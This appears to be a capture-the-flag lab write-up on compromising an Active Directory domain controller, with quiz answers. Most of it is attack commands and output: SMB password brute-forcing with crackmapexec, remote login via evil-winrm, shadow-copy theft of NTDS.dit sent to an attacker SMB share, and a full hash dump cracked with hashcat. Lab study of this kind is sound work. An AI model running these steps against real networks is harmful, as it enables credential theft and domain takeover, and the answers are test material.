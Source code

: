 # Attacking Active Directory & NTDS.dit

### What is the name of the file stored on a domain controller that contains the password hashes of all domain accounts?

```
NTDS.dit
```

### Submit the NT hash associated with the Administrator user from the example output in the section reading.

```
64f12cddaa88057e06a81b54e73b949b
```

### On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)

We can manually create our list(s) or use an `automated list generator` such as the Ruby-based tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to convert a list of real names into common username formats.

```bash
git clone https://github.com/urbanadventurer/username-anarchy.git
./username-anarchy john marston > john.txt
#use crackmap to brute force smb
crackmapexec smb 10.129.202.85 -u john.txt -p /usr/share/wordlists/fasttrack.txt
SMB         10.129.202.85   445    ILF-DC01         [+] ILF.local\jmarston:P@ssword! (Pwn3d!)
```

We can connect to a target DC using the credentials we captured.

```bash
evil-winrm -i 10.129.202.85 -u jmarston -p 'P@ssword!'
#we can check to see what privileges
net localgroup #look for *Administrators
net user jmarston # look for *Domain Admins
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

**Creating Shadow Copy of C:**

```bash
vssadmin CREATE SHADOW /For=C:
#Successfully created shadow copy for 'C:\'
#    Shadow Copy ID: {8e2dd360-d2bd-4758-a9a3-f48815492eff}
#    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\
```

now create smb share on our linux and transfer ntsdit through smb

```bash
#1
impacket-smbserver shared -smb2support /tmp/shared  
#2
move ntds.dit \\10.10.14.179\shared
```

**A Faster Method: Using cme to Capture NTDS.dit**

```bash
crackmapexec smb 10.129.179.147 -u jmarston -p 'P@ssword!' --ntds
SMB         10.129.179.147  445    ILF-DC01         Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
SMB         10.129.179.147  445    ILF-DC01         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.179.147  445    ILF-DC01         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cfa046b90861561034285ea9c3b4af2f:::
SMB         10.129.179.147  445    ILF-DC01         ILF.local\jmarston:1103:aad3b435b51404eeaad3b435b51404ee:2b391dfc6690cc38547d74b8bd8a5b49:::
SMB         10.129.179.147  445    ILF-DC01         ILF.local\cjohnson:1104:aad3b435b51404eeaad3b435b51404ee:5fd4475a10d66f33b05e7c2f72712f93:::
SMB         10.129.179.147  445    ILF-DC01         ILF.local\jstapleton:1108:aad3b435b51404eeaad3b435b51404ee:92fd67fd2f49d0e83744aa82363f021b:::
SMB         10.129.179.147  445    ILF-DC01         ILF.local\gwaffle:1109:aad3b435b51404eeaad3b435b51404ee:07a0bf5de73a24cb8ca079c1dcd24c13:::
SMB         10.129.179.147  445    ILF-DC01         ILF-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:14e8c74f478c1d905d7ae492d04cbee2:::
SMB         10.129.179.147  445    ILF-DC01         LAPTOP01$:1111:aad3b435b51404eeaad3b435b51404ee:be2abbcd5d72030f26740fb531f1d7c4:::
SMB         10.129.179.147  445    ILF-DC01         [+] Dumped 9 NTDS hashes to /home/kali/.cme/logs/ILF-DC01_10.129.179.147_2024-02-19_032615.ntds of which 7 were added to the database
```

crack it now with hashcat

```bash
vim hash.txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cfa046b90861561034285ea9c3b4af2f:::
ILF.local\jmarston:1103:aad3b435b51404eeaad3b435b51404ee:2b391dfc6690cc38547d74b8bd8a5b49:::
ILF.local\cjohnson:1104:aad3b435b51404eeaad3b435b51404ee:5fd4475a10d66f33b05e7c2f72712f93:::
ILF.local\jstapleton:1108:aad3b435b51404eeaad3b435b51404ee:92fd67fd2f49d0e83744aa82363f021b:::
ILF.local\gwaffle:1109:aad3b435b51404eeaad3b435b51404ee:07a0bf5de73a24cb8ca079c1dcd24c13:::
ILF-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:14e8c74f478c1d905d7ae492d04cbee2:::
LAPTOP01$:1111:aad3b435b51404eeaad3b435b51404ee:be2abbcd5d72030f26740fb531f1d7c4:::
#hashcat command
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt 
92fd67fd2f49d0e83744aa82363f021b:Winter2008 #jstapleton
```

